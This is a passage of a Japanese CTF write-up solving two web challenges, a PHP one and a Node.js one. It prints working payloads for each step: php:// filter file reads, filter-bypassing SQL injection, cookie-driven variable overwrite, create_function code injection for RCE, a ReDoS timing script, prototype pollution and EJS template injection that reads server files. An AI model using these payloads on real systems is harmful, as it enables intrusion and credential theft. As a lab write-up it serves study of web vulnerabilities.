`!preg_match("/\.\./i", $url["path"])` というチェックも、`ricksecret/db.php` はカレントディレクトリの下にあるわけですから、パストラバーサルする必要はありませんし問題ないでしょう。

最後の `!preg_match("/read|base|iconv|zlib/i", $url["path"])` はおそらく `php://` ストリームラッパーの対策でしょうが、`file_get_contents` が返す内容のチェックが行われているわけではないので Base64 エンコードなどの処理は必要ありません。

ということで、`php://filter/resource=ricksecret/db.php` で `ricksecret/db.php` を読むことができました。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}&sixth=php://filter/resource=ricksecret/db.php' -d 'fifth=////////sbin/zramctl'
<?php
$host = "127.0.0.1";
$username = "Rick";
$password = "R1cKs_Ung3s5b4L3_P45sw0Rd";
$db_name = "rick_secrets";
?>
<br />Where would you find the components of the injection?
```

#### `$_GET["sixth_second"]`
`ricksecret/db.php` を読むことで MySQL サーバに接続するためのパスワードが `R1cKs_Ung3s5b4L3_P45sw0Rd` であるとわかりました。

あとは `sixth_second=R1cKs_Ung3s5b4L3_P45sw0Rd` を GET パラメータとして加えるだけ…かと思いきや、`urldecode($_SERVER["QUERY_STRING"])` に `sixth_second` もしくは `sixth second` が含まれているとダメというチェックによって、このままでは弾かれてしまいます。

なぜ `sixth_second` とあわせて `sixth second` も一緒に弾いているのか気になり、GET パラメータの扱いについて PHP のドキュメントを調べてみると以下のような記述が見つかりました。

> **注意**:  
> 変数名のドットやスペースはアンダースコアに変換されます。 たとえば `<input name="a.b" />` は `$_REQUEST["a_b"]` となります。
> 
> [PHP: 外部から来る変数 - Manual](https://www.php.net/manual/ja/language.variables.external.php)

`sixth.second=R1cKs_Ung3s5b4L3_P45sw0Rd` なら、`urldecode($_SERVER["QUERY_STRING"])` のチェックは回避した上で `$_GET["sixth_second"]` に `R1cKs_Ung3s5b4L3_P45sw0Rd` が入っているような状況を作ることができそうです。試してみましょう。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}&sixth=php://filter/resource=ricksecret/db.php&sixth.second=R1cKs_Ung3s5b4L3_P45sw0Rd' -d 'fifth=////////sbin/zramctl'
Where would you find the components of the injection?
```

次に進むことができました。

### `$_GET["seventh"]`
```php
<?php
if (!preg_match("/\.|_|%|regexp|like|\x09| |\x0d|\x0a|\x0b|\/|\*|x|0|r1cks|\(|\)/i", $_GET["seventh"])) {
    $one = "SELECT secret FROM top_secrets WHERE secret='{$_GET["seventh"]}'";
    $two = "SELECT secret FROM top_secrets /*{$_GET["seventh"]}*/";
    $exe_one = $dbms->query($one);
    if ($exe_one->num_rows > 0) {
        $res = $exe_one->fetch_assoc();
        if ($res["secret"] === "r1cks") {
            $exe_two = $dbms->query($two);
            if ($exe_two->num_rows > 0) {
                $res = $exe_two->fetch_assoc();
                if ($res["secret"] === "th3sm4rt3s7") {
                  // …
                }
                else {
                    $dbms->close();
                    die("Oh not again Morty.");
                }
            }
            else {
                $dbms->close();
                die("Maybe somehow close.");
            }
        }
        else {
            $dbms->close();
            die("Wait what's that Morty?");
        }
    }
    else {
        $dbms->close();
        die("That's not even close Morty.");
    }
}
else {
    $dbms->close();
    die("You touched something that you're not supposed to touch.");
}
```

`$one = "SELECT secret FROM top_secrets WHERE secret='{$_GET["seventh"]}'";` と `$two = "SELECT secret FROM top_secrets /*{$_GET["seventh"]}*/";` の 2 つの SQL 文で同時に SQLi をし、それぞれ `r1cks` と `th3sm4rt3s7` を (いずれも DB に存在していないので `UNION` を使って) 返すようにすればよいようです。

まず `/\.|_|%|regexp|like|\x09| |\x0d|\x0a|\x0b|\/|\*|x|0|r1cks|\(|\)/i` というフィルターの回避について考えていきましょう。

MySQL で空白文字として扱われるものは全てフィルターされている…かと思いきや、Python の `string.whitespace` とにらめっこしてみると `\x0c` (改ページ) が抜けていることがわかります。

#### `$one`
`r1cks` がフィルターされているので `r1cks` を使わずに `r1cks` という文字列を作る必要が出てきますが、これは MySQL の[文字列リテラルを隣り合わせると結合することができる](https://dev.mysql.com/doc/refman/5.6/ja/string-literals.html)という仕様を使えばできます。

```
mysql> select "r1"'cks';
+-------+
| r1    |
+-------+
| r1cks |
+-------+
1 row in set (0.00 sec)
```

これらを組み合わせて、`'UNION%0cSELECT%0c"r1"'cks` で `$one` の実行時に `r1cks` を返すようにすることができました。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}&sixth=php://filter/resource=ricksecret/db.php&sixth.second=R1cKs_Ung3s5b4L3_P45sw0Rd&seventh='"'UNION%0cSELECT%0c\"r1\"'cks" -d 'fifth=////////sbin/zramctl'
<?php
$host = "127.0.0.1";
$username = "Rick";
$password = "R1cKs_Ung3s5b4L3_P45sw0Rd";
$db_name = "rick_secrets";
?>
<br />Oh not again Morty.
```

#### `$two`
`$two` ではコメント中にユーザ入力が展開されるため、なんとかしてコメントから抜け出す必要があります。`*` と `/` はフィルターされているため他の方法を考える必要がありますが、どうすればよいでしょうか。

実は MySQL では `/*! MySQL-specific code */` のように [`/*!` と `*/` で囲むと一定のバージョン以上でのみコメント中の構文を実行させる](https://dev.mysql.com/doc/refman/5.6/ja/comments.html)ことができます。

これでコメントからの抜け出しは問題ありませんが、`$one` と両立するようなペイロードはどのようにして書けばよいのでしょうか。`$one` では文字列中に、`$two` ではコメント中にユーザ入力が展開されるという差異をなんとかする必要があり、大変めんどくさそうです。

私にはわからず、悩んでいるうちに ptr-yudai さんが以下のようなペイロードを作り上げました。

```
$ curl --path-as-is -g -X POST 'http://(省略)///?first=pickle_rick&second=47589&third=/dev/fd/11&fourth=O:%2B17:"injection_chambre":3:{s:5:"sprue";s:4:"pass";s:11:"mold_plate1";i:456;s:11:"mold_plate2";R:3;}&sixth=php://filter/resource=ricksecret/db.php&sixth.second=R1cKs_Ung3s5b4L3_P45sw0Rd&seventh=!WHERE%0csecret=""UNION%0cSELECT"th3sm4rt3s7"UNION%0cSELECT'"'UNION%0cSELECT\"r1\"''\"cks\"'" -d 'fifth=////////sbin/zramctl'
<?php
$host = "127.0.0.1";
$username = "Rick";
$password = "R1cKs_Ung3s5b4L3_P45sw0Rd";
$db_name = "rick_secrets";
?>
<br />Where would you find cookies Morty?
```

よくわからないので、どのような SQL 文が実行されるか確認してみましょう。

```php
<?php
$_GET["seventh"] = str_replace("\x0c", ' ', $_GET["seventh"]);

$one = "SELECT secret FROM top_secrets WHERE secret='{$_GET["seventh"]}';";
$two = "SELECT secret FROM top_secrets {$_GET["seventh"]};";

echo "/* one */ $one\n/* two */ $two\n";
```

この PHP スクリプトに対して、先程の GET パラメータを付与した上でアクセスします。

```sql
/* one */ SELECT secret FROM top_secrets WHERE secret='WHERE secret=""UNION SELECT"th3sm4rt3s7"UNION SELECT'UNION SELECT"r1"''"cks"'';
/* two */ SELECT secret FROM top_secrets WHERE secret=""UNION SELECT"th3sm4rt3s7"UNION SELECT'UNION SELECT"r1"''"cks"';
```

MySQL では `'` が `''` のようにエスケープされることを利用して、`"r1"''"cks"` の `''` 部分は `$one` では空文字列として、`$two` では `'` をエスケープしたものとして扱われるようになっています。すげー。

### `$_GET["eigth"]`
```php
<?php
extract($_COOKIE);
if ($_SESSION["is_rick"]) {
  // …
}
else {
    die("Access denied for non ricks.");
}
```

`extract($_COOKIE);` によって Cookie の内容を変数としてインポートしています。例えば `a=b` という Cookie があれば、`$a` という変数に `b` という文字列が代入されます。

`$_SESSION["is_rick"]` が存在しているかどうかがチェックされていますが、`$_SESSION["is_rick"]` への代入をしている処理はどこにもありません。

`extract($_COOKIE);` を使いましょう。`_SESSION[is_rick]=1` という Cookie をセットすることで `$_SESSION["is_rick"]` に `1` が代入されます。

### `$_GET["nineth"]`
```php
<?php
$E = $_POST["nineth"];
$y = create_function('', substr($E, 0, 12));
```

`$_POST["nineth"]` の先頭 12 文字を切り出したものをコードとして、`create_function` によって匿名関数を作っています。ところが、`$y` は関数として呼ばれていません。

`create_function` が大変怪しく見えます。PHP の公式ドキュメントを確認します。

> **警告**  
> この関数は、内部的に `eval()` を実行しているので、 `eval()` と同様にセキュリティ上のリスクがあります。 さらに、パフォーマンスやメモリ使用効率の面でも問題があります。
>
> PHP 5.3.0 以降を使っている場合は、この関数ではなく、ネイティブの 無名関数 を使うべきです。

内部的に `eval()` を実行しているというのはどういうことでしょうか。[ソースコード](https://github.com/php/php-src/blob/PHP-5.6.40/Zend/zend_builtin_functions.c#L1797-L1856)を見てみると、`create_function` は `function \x00lambda_<数値>(<引数>){<コード>}` というように文字列を結合して `eval` することでその機能を実現していることがわかります。

ということは、`create_function('', '}phpinfo();{')` は `function \x00lambda_0(){}phpinfo();{}` と等価で、返り値の匿名関数を呼び出さずとも `create_function` を呼ぶだけで `phpinfo();` が実行されるということになります。

`$_GET["eigth"]` のときに実行された `extract($_COOKIE);` によって Cookie を経由して変数を操作することができることを利用すると、RCE に持ち込むことができます。

`$_POST["nineth"]` に `}eval($a);{` を、Cookie の `a` にコードを仕込むと RCE ができます。

### フラグを取得
RCE に持ち込めたのだからあとはやるだけだと思っていたのですが、ファイルシステムのどこを探してもフラグが見当たりません。

悩んでいると、aventador さんが `var_dump(get_defined_functions());` によって `pickle2rick` という謎の関数を発見されました。この関数を呼び出すとフラグが得られたようです。

## [Web 1000] New Rick (1 solves)
> Rick made his own world, he said that it will teach me a lot and at the same time it's a fun adventure. He also said that his hiding a flag, but as usual his so crazy and he wants me to pass some problems to get it. Enter with Rick his world and get the secret flag.
> 
> (URL)
> 
> 添付ファイル: setup.js, main.js, package.json

`setup.js` は以下のような内容でした。

```javascript
#!/usr/bin/node

const express = require("express");
const session = require("express-session");
const bodyParser = require('body-parser')
const FileStore = require('session-file-store')(session);
const path = require("path");
const fs = require("fs");
const main = require(path.join(__dirname, "main"));

// Poseidon{S1k3_M0rTy_Y0u_7h0uGh}
const app = express();
app.set("views", path.join(__dirname, "letters"));
app.set("view engine", "ejs");
app.use(bodyParser.urlencoded({ extended: false }));
app.use(session({
	resave: false,
	store: new FileStore({path: path.join(__dirname, "ricksess")}),
	saveUninitialized: true,
	secret: *REDACTED*
}));
main(app, fs, path);

app.listen(6565, () => {
	console.log("Challenge Started On Port: 6565.");
});
```

`Poseidon{S1k3_M0rTy_Y0u_7h0uGh}` というのはもちろん偽フラグで、RCE かなにかで `setup.js` を読み込めばフラグが得られるということでしょう。

`main.js` は以下のような内容でした ([ソースコード全体はこちら](../files/20200810-poseidonctf/new_rick_main.js))。Old Rick の JavaScript 版といったところでしょうか。



### `/secretplace`
```javascript
app.get("/secretplace", (req, res) => {
  let sess = req.session;
  sess.AccessGranted = false;
  if ("secretWord" in req.query) {
    let secretWord = req.query.secretWord;
    let secretword = fs.readFileSync(path.join(__dirname, "secretword.txt"), "utf-8").trim();
    if (!Array.isArray(secretWord) && (typeof secretWord) !== "object") {
      if (!secretword.search(secretWord) && secretWord.length === 10 && secretWord === secretword) {
        sess.AccessGranted = true;
        res.end();
      }
      else {
        res.end("Access to the secret place denied.");
      }
    }
    else {
      res.end("Come on Morty it's called secretWord.");
    }
  }
  else {
    res.end("Wait Morty where's my thing?");
  }
});
```

`secretword.txt` というファイルに書かれているものを当てればセッションの `AccessGranted` というプロパティが `true` になるようです。

一見不可能ですが、`secretword.search(secretWord)` と [`String.prototype.search`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String/search) の引数にユーザ入力が渡っていることに注目します。`String.prototype.search` の第一引数は正規表現として扱われます。[IJCTF 2020](2020-04-27-ijctf-2020.html#auth-のパスコードを取得する) で類題が出ていますから、それで作ったコードをいじって `secretword` を特定しましょう。

```python
import requests
import string
import time
import urllib.parse

BASE = 'http://(省略)/secretplace?secretWord='

res = "s4nch3z"
template = '^(?=(.*{}))(((((.*)*)*)*)*)*salt$'

for c in '.' + string.printable:
  t = time.time()
  requests.get(BASE + urllib.parse.quote(template.format(c + res)))
  if time.time() - t > 1.0:
    print(time.time() - t, c)

print('done')
```

`yo-s4nch3z` がパスコードでした。

### worldoor
```javascript
let worldoor = req.query.worldoor;
if (!Array.isArray(worldoor) && (typeof worldoor) !== "object") {
  if (!/rickstuff/.test(worldoor)) {
    if (worldoor.toLowerCase() === path.join(__dirname, "rickstuff").toLowerCase()) {
      // …
    }
    else {
      res.end("We can't open the door like that Morty.");
    }
  }
  else {
    res.end("Again Morty, touching things that I always say don't touch.");
  }
}
else {
  res.end("Come on Morty what's that!?");
}
```

`__dirname` と `rickstuff` を結合したものを当てればよさそうです。

`__dirname` をどうやって特定するかで悩んでいましたが、色々試していると `/secretplace?secretWord=(` にアクセスすると `(` は正規表現として正しくないためシンタックスエラーが発生し、スタックトレースから `/home/ctf` であることがわかりました。

```
SyntaxError: Invalid regular expression: /(/: Unterminated group
    at String.search (native)
    at app.get (/home/ctf/main.js:252:21)
    at Layer.handle [as handle_request] (/home/ctf/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/ctf/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/ctf/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/ctf/node_modules/express/lib/router/layer.js:95:5)
    at /home/ctf/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/ctf/node_modules/express/lib/router/index.js:335:12)
    at next (/home/ctf/node_modules/express/lib/router/index.js:275:10)
    at /home/ctf/node_modules/express-session/index.js:502:7
```

`worldoor` は `/home/ctf/rickstufF` でしょう。試してみましょう。

```
$ curl -X POST -g 'http://(省略)/?worldoor=/home/ctf/rickstufF'
Wait Morty where's my thing?
```

次に進むことができました。

### teleport
```javascript
let teleport = req.query.teleport;
if (!Array.isArray(teleport) && (typeof teleport) !== "object") {
  if (/^[137]+$/.test(teleport)) {
    if (parseInt(teleport) === 13333333333333334000) {
      // …
    }
    else {
      res.end("Not valid location morty.");
    }
  }
  else {
    res.end("Again Morty, touching things that I always say don't touch.");
  }
}
else {
  res.end("Come on Morty it only accepts numbers.");
}
```

`teleport` が `1` `3` `7` のみからなっているか確認した上で、数値に変換したものが `13333333333333334000` と同じか確認しています。

JavaScript の `Number` は倍精度浮動小数点数ですから、2 の 53 乗を超えた整数値は正確に表現できません。この性質を利用して、`teleport=13333333333333333333` で次に進むことができました。

### bridge
```javascript
let bridge = req.query.bridge;
if (bridge == "d0wnth3r3" && bridge.length === 1) {
  // …
}
else {
  res.end("Is that how you make a bridge work?");
}
```

`bridge` が `d0wnth3r3` と等しく、かつ長さが 1 であればよいようです。

`worldoor` や `teleport` と違って `bridge` が配列であるかどうかというチェックはなく、また `bridge == "d0wnth3r3"` とゆるい比較が使われていることに注目します。

`==` は左辺と右辺が違う型である場合には型の変換が行われます。`bridge` が `['d0wnth3r3']` という配列であれば、文字列化されて `d0wnth3r3` になるので、`bridge == "d0wnth3r3"` は真になります。

これを利用して、`bridge[]=d0wnth3r3` で次に進むことができました。

### neworld
```javascript
let neworld = req.query.neworld;
if (!Array.isArray(neworld) && (typeof neworld) !== "object") {
  if (/^[137]+$/.test(neworld)) {
    if ("Ricks" + (neworld * 1)  === "RicksInfinity") {
      // …
    }
    else {
      res.end("What's does that even mean?");
    }
  }
  else {
    res.end("Again Morty, touching things that I always say don't touch.");
  }
}
else {
  res.end("Come on Morty it only accepts numbers.");
}
```

`neworld` が `1` `3` `7` のみからなっているか確認した上で、`"Ricks" + (neworld * 1)` が `RicksInfinity` と同じか確認しています。つまり、`neworld * 1` が `Infinity` になればよいようです。

`neworld * 1` によって `neworld` は文字列から数値に変換されています。JavaScript では [`Number.MAX_VALUE`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/Number/MAX_VALUE) より大きな値は `Infinity` として表現されます。めちゃくちゃデカい値を作ってみましょう。

```
$ curl -X POST -g 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge
[]=d0wnth3r3&neworld=777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
777&lord=a&rord=b'
Oh who's rord :joy:?
```

次に進むことができました。

### lord, rord
```javascript
let lord = req.query.lord;
let rord = req.query.rord;
if (!Array.isArray(lord) && !Array.isArray(rord) && (typeof lord) !== "object" && (typeof rord) !== "object") {
  if ("ricks".concat(XOR(lord)) === rord) {
    // …
  }
  else {
    res.end("Oh who's rord :joy:?");
  }
}
else {
  res.end("Come on Morty shouldn't it only get strings?");
}
```

`ricks` という文字列と `XOR` という関数に `lord` を与えた返り値を結合したものが `rord` と等しければよいようです。`XOR` がどのような関数か確認しましょう。

```javascript
const XOR = ((str) => {
  let i, num = Math.floor(Math.random() * 1337), encoded = "";

  for (i = 0; i < str.length; i++) {
    encoded += str.charCodeAt(i) ^ num;
  }

  return
    encoded;
});
```

乱数と XOR されていてこれは予測できなさそうです。が、よく見ると `return` 文がなぜか 2 行に分割されており、自動セミコロン挿入によって `return; encoded;` と書いた場合と等価な挙動をしそうな雰囲気があります。DevTools の Console タブで試してみましょう。

```
> XOR('hoge')
< undefined
> XOR('fuga')
< undefined
```

何を投げても `undefined` が返ってきます。これなら `"ricks".concat(XOR(lord))` は常に `ricksundefined` になりますね。

```
$ curl -X POST -g 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge
[]=d0wnth3r3&neworld=777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
777&lord=a&rord=ricksundefined&worldname=a&component=b'
Again Morty, touching things that I always say don't touch.
```

### worldname, component
```javascript
let worldname = req.query.worldname;
let component = req.query.component;
if (!Array.isArray(worldname) && (typeof worldname) !== "object" && !Array.isArray(component) && (typeof component) !== "object") {
  if (/^[1-9]+$/.test(worldname) && /^[1-9]+$/.test(component)) {
    if (("A" + worldname / component + "as").toLowerCase() === "ananas") {
      // …
    }
    else {
      res.end("Stop skipping math class Morty.");
    }
  }
  else {
    res.end("Again Morty, touching things that I always say don't touch.");
  }
}
else {
  res.end("Come on Morty it only accepts numbers.");
}
```

`worldname` と `component` がそれぞれ `1` から `9` のみからなっていることを確認した上で、`worldname / component` という計算がされています。その前後に `A` と `as` を結合して小文字化したものが `ananas` になればよいということですから、`worldname / component` を `NaN` にすればよいのでしょう。 

JavaScript では `Infinity / Infinity` は `NaN` になります。

```
$ curl -X POST -g 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge
[]=d0wnth3r3&neworld=777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
777&lord=a&rord=ricksundefined&worldname=999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999&component=999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999'
Wait Morty where's my thing?
```

### animal
```javascript
let animal = req.query.animal;
if (!Array.isArray(animal)) {
  try {
    res.end((animal / 1337).toString());
  }
  catch (e) {
    // …
  }
}
else {
  res.end("Well, animals here are not like other animals.");
}
```

`animal` を `1337` で割って文字列化したときにエラーを起こせばよいようです。

これまでのチェックと比べると、`(typeof animal) !== "object"` のように `Object` であるかどうかのチェックが入っていないことがわかります。`animal` を `Object` にすればよいということでしょう。

```
$ curl -X POST -g 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge
[]=d0wnth3r3&neworld=777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
777&lord=a&rord=ricksundefined&worldname=999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999&component=999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&animal[toString]=0'
Wait Morty where's my thing?
```

### weired
```javascript
let weired = req.query.weired;
if (!Array.isArray(weired) && (typeof weired) !== "object") {
  if (!weired.includes(".")) {
    weired = parseFloat(weired);
    if (weired > 0 && weired < 0.05) {
      // …
    }
    else {
      res.end("Is zero the minimal value Morty?");
    }
  }
  else {
    res.end("Again Morty, touching things that I always say don't touch.");
  }
}
else {
  res.end("Come on Morty it only accepts numbers and stuff like that.");
}
```

`weired` に `.` が含まれていないかチェックした上で、これを浮動小数点に変換して `0 < weired < 0.05` であるかどうかチェックしています。`1e-3` のような指数表記を使いましょう。

```
$ curl -X POST -g 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge
[]=d0wnth3r3&neworld=777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
777&lord=a&rord=ricksundefined&worldname=999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999&component=999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&animal[toString]=0&wei
red=1e-3'
Wait Morty where's my thing?
```

### st, ar
```javascript
let st = req.query.st;
let ar = req.query.ar;
if (!st.includes(",") && !ar.includes(",") && ar.length === 2 && st.length === 2) {
  if ((st + ar) === "1,33,7") {
    if (sess.AccessGranted !== "undefined" && sess.AccessGranted === true) {
      // …
    }
    else {
      res.end("Access denied Morty.");
    }
  }
  else {
    res.end("Not that clear Morty.");
  }
}
else {
  res.end("Again Morty, touching things that I always say don't touch.");
}
```

`st` と `ar` のいずれも配列であるかどうかは確認されていませんから、`bridge` と同様に配列にすればよさそうです。

`sess.AccessGranted === true` とセッションの `AccessGranted` プロパティのチェックがされていますが、これは `/secretplace` で既に `true` にできています。

```
$ curl -X POST -g -b 'connect.sid=s%3AdkXke1cyGCAC1eNuBxxgYUDYaLXXBXM3.jhR1fQpcYUKzWOv0UETajIYP2TCEowbbZBsXQ1Lxvow' 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge[]=d0wnth3r3&neworld=7777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777&lord=a&rord=ricksundefined&worldname=9999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999&component=999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999&animal[toString]=0&weired=1e-3&st[]=1&st[]=3&ar[]=3&ar[]=7'
Wait Morty where's my thing?
```

### fastfood
```javascript
let fastfood = req.query.fastfood;
if (!Array.isArray(fastfood) && (typeof fastfood) !== "object") {
  try {
    let in_food = JSON.parse(fastfood);
    if (!("food" in in_food)) {
      let order = Object.assign({}, in_food);
      if (order.food === "Makloub") {
        // …
      }
      else {
        res.end("Does that seem like a Makloub for you?");
      }
    }
    else {
      res.end("We don't do that here Morty.");
    }
  }
  catch (e) {
    res.end("That doesn't seem like a food even.");
  }
}
else {
  res.end("Come on Morty it only accepts strings.");
}
```

`fastfood` を JSON として解釈した上で `food` というプロパティが存在しないか確認し、さらに `Object.assign({}, in_food)` に通してこのオブジェクトの `food` というプロパティにアクセスしています。prototype pollution でしょう。

```
$ curl -X POST -g -b 'connect.sid=s%3AdkXke1cyGCAC1eNuBxxgYUDYaLXXBXM3.jhR1fQpcYUKzWOv0UETajIYP2TCEowbbZBsXQ1Lxvow' 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge[]=d0wnth3r3&neworld=7777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777&lord=a&rord=ricksundefined&worldname=99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&component=99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&animal[toString]=0&weired=1e-3&st[]=1&st[]=3&ar[]=3&ar[]=7&fastfood={"__proto__":{"food":"Makloub"}}'
Wait Morty where's my thing?
```

### フラグの取得
```javascript
let letter_name = req.body.letter_name;
let letter = req.body.letter;
if (!Array.isArray(letter) && !Array.isArray(letter_name) && (typeof letter) !== "object" && (typeof letter_name) !== "object") {
  let letter_path = path.join(__dirname, "letters/", sess.id, path.basename(letter_name));
  if (!fs.existsSync(path.join(__dirname, "letters/", sess.id))) {
    fs.mkdirSync(path.join(__dirname, "letters/", sess.id));
  }
  fs.writeFileSync(letter_path, letter);
  if ("view_letter" in req.query) {
    let view_letter = req.query.view_letter;
      res.render(view_letter);
  }
  else {
    res.end("Wait Morty where's my thing?");
  }
}
else {
  res.end("Come on Morty it's a letter.");
}
```

ラストです。`letters/(セッション ID)/(path.basename(letter_name))` というファイルに `letter` を書き込んでいます。`view_letter` という GET パラメータが存在していれば `res.render(view_letter)` とそのパスをテンプレートとしてレンダリングしています。

`setup.js` の `app.set("view engine", "ejs");` からテンプレートエンジンには EJS が使われていることがわかっています。SSTI でしょう。

```
$ curl -X POST -g -b 'connect.sid=s%3AdkXke1cyGCAC1eNuBxxgYUDYaLXXBXM3.jhR1fQpcYUKzWOv0UETajIYP2TCEowbbZBsXQ1Lxvow' 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge[]=d0wnth3r3&neworld=7777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777&lord=a&rord=ricksundefined&worldname=99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&component=99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999&animal[toString]=0&weired=1e-3&st[]=1&st[]=3&ar[]=3&ar[]=7&fastfood={"__proto__":{"food":"Makloub"}}&view_letter=dkXke1cyGCAC1eNuBxxgYUDYaLXXBXM3/a' -d 'letter_name=a.ejs' -d 'letter=<%- global.process.mainModule.require("fs").readFileSync("setup.js").toString() %>'
#!/usr/bin/node

const express = require("express");
const session = require("express-session");
const bodyParser = require('body-parser')
const FileStore = require('session-file-store')(session);
const path = require("path");
const fs = require("fs");
const main = require(path.join(__dirname, "main"));

// Poseidon{Wh4t_@_w0nd3rfu1_wORlD_R1ck}
const app = express();
app.set("views", path.join(__dirname, "letters"));
app.set("view engine", "ejs");
app.use(bodyParser.urlencoded({ extended: false }));
app.use(session({
        resave: false,
        store: new FileStore({path: path.join(__dirname, "ricksess")}),
        saveUninitialized: true,
        secret: "5uckMyM0us3M0r7y"
}));
main(app, fs, path);

app.listen(6565, () => {
        console.log("Challenge Started On Port: 6565.");
});
```

フラグが得られました。

```
Poseidon{Wh4t_@_w0nd3rfu1_wORlD_R1ck}
```